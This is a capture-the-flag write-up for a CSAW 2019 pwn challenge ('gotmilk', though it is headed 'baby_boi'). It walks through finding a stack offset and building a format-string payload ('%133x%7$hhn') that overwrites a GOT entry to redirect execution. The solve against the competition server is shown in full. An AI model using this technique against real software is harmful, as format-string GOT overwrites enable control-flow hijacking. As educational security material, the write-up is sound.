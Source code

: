 # baby_boi

Category: `pwn`

Description: `GlobalOffsetTable milk?`

Service: `nc pwn.chal.csaw.io 1004`

Points: `50`

**Files**
- [gotmilk](files/gotmilk)
- [libmylib.so](files/libmylib.so)

### What It Does

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ file gotmilk 
gotmilk: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=703440832efdbe6e4cbf734b303a31c4da7eb4e2, with debug_info, not stripped
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

The 32-bit binary calls `lose()`, reads user input and calls `lose()` again.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ ./gotmilk 
Simulating loss...

No flag for you!
Hey you! GOT milk? 123
Your answer: 123

No flag for you!
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

The binary is non-PIE, disabling ASLR.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ checksec gotmilk
[*] '/home/ubuntu/ctf/2019/csaw_ctf_quals/pwn/gotmilk'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

### How to Solve

This is a GOT overwrite format string attack. We have to overwrite the value of `lose@got`, which is the address of `lose@libmylib`, to the address of `win@libmylib`.

First, we get the offset of our input on the stack.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ ./gotmilk 
Simulating loss...

No flag for you!
Hey you! GOT milk? AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Your answer: AAAA 64 f7f6f5c0 804866f 0 1 f7fca940 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520

No flag for you!
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

Our input is at `7`.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ ./gotmilk 
Simulating loss...

No flag for you!
Hey you! GOT milk? AAAA %7$x
Your answer: AAAA 41414141

No flag for you!
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

Next, we get the address of `lose@got`. The address is consistent since ASLR is disabled.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ readelf -r gotmilk | grep lose
0804a010  00000307 R_386_JUMP_SLOT   00000000   lose
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

The address of `lose@got` is `0x0804a010`.

Then, we get the offset of `lose@libmylib` and `win@libmylib`.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ objdump -d libmylib.so | egrep 'lose>:|win>:'
00001189 <win>:
000011f8 <lose>:
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

Notice that the offset of `lose@libmylib` and `win@libmylib` only differs in their last byte. The last byte of the addresses in the shared library will not be affected by ASLR. Hence, we only need to overwrite 1 byte of the value of `lose@got` to point to `win@libmylib`.

To overwrite the byte to `0x89`, we need to print `133` characters after the address of `lose@got`.

```shellsession
In [1]: 0x89 - 4
Out[1]: 133
```

Putting it together and test against the binary.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ python -c 'import struct; print struct.pack("I", 0x0804a010) + "%133x%7$hhn"' | ./gotmilk
Simulating loss...

No flag for you!
Hey you! GOT milk? Your answer:                                                                                                                                     64
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

Get the flag from the server.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ python -c 'import struct; print struct.pack("I", 0x0804a010) + "%133x%7$hhn"' | nc pwn.chal.csaw.io 1004
Simulating loss...

No flag for you!
Hey you! GOT milk? Your answer:                                                                                                                                     64
flag{y0u_g00000t_mi1k_4_M3!?}
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

**Flag: `flag{y0u_g00000t_mi1k_4_M3!?}`**